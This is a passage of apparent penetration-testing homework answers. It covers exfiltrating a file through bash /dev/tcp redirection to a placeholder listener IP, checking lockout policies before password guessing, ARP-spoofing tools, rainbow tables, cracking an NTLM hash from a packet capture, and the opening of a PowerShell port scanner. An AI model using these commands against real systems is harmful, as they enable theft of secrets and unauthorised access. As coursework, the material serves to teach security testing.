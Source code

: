 * **c. Using native bash tools (no nc/ncat/socat):**
    *  Listener: (Still usually use `nc`): `nc -lvnp <LISTENING_PORT> > passwordsandstuff.bin`
    * Sender: Use bash TCP redirection:
        ```bash
        cat /secret/passwordsandstuff.bin > /dev/tcp/<TESTING_MACHINE_IP>/<LISTENING_PORT>
        ```

### 6. How to check lockout settings before password guessing?

* a. **Windows:** Run `net accounts`. Check "Lockout threshold", "Lockout duration", "Lockout observation window". In AD, check Group Policy (e.g., `Get-ADDefaultDomainPasswordPolicy`).
* b. **Linux:** Check PAM configs in `/etc/pam.d/` for `pam_tally2`/`pam_faillock` settings (`deny`, `unlock_time`). Use `pam_tally2 --user <username>` or `faillock --user <username>` to check status.

### 7. Data link layer attack tool?

* a. **Windows tool reviewed?** Cain & Abel (using ARP Poison Routing).
* b. **Kali equivalent?** Ettercap, arpspoof, Bettercap.
* c. **Kind of packets sent?** Forged ARP Reply packets (to poison target ARP cache).

### 8. OS where Rainbow Tables likely won't work well? Why?

Modern Linux (or macOS/Windows) because they use **salting**. Each password hash includes a unique salt, so generic precomputed tables won't match.

### 9. What happens if you use the same reduction function building a rainbow table?

It causes many **collisions** and **chain merges**, significantly reducing the table's coverage and effectiveness.

### 10. Crack Alice's password from `hw3.pcap`?

1.  **Extract Hash:** I opened `hw3.pcap` in Wireshark then filtered for `smb || ntlmssp`. Next I found Alice's NTLM authentication handshake and extracted the challenge/response components (username, domain, challenge, response hash/data).
2.  **Cain:** I then imported Alice's NTLM session data into Cracker tab and ran Dictionary attack on Alice's entry.
![[alice.png]]
### 11. PowerShell script to scan ports 8075-8085 on subnet 10.10.0.32/29?

```powershell
# Function to scan specified ports on a subnet
function Invoke-TcpPortScan {
    [CmdletBinding()]
    param(
        [Parameter(Mandatory=$true)][string]$SubnetCidr,
        [Parameter(Mandatory=$true)][int[]]$Ports
    )
    process {
        # Calculate IP Range (simplified example - requires proper subnet math)
        # For 10.10.0.32/29, usable IPs are 10.10.0.33 to 10.10.0.38
        $ipRange = @("10.10.0.33", "10.10.0.34", "10.10.0.35", "10.10.0.36", "10.10.0.37", "10.10.0.38") # Manual for this example

        foreach ($targetIp in $ipRange) {
            $openPorts = @()
            Write-Verbose "Scanning $targetIp..."
            foreach ($port in $Ports) {
                $tcpClient = New-Object System.Net.Sockets.TcpClient
                try {
```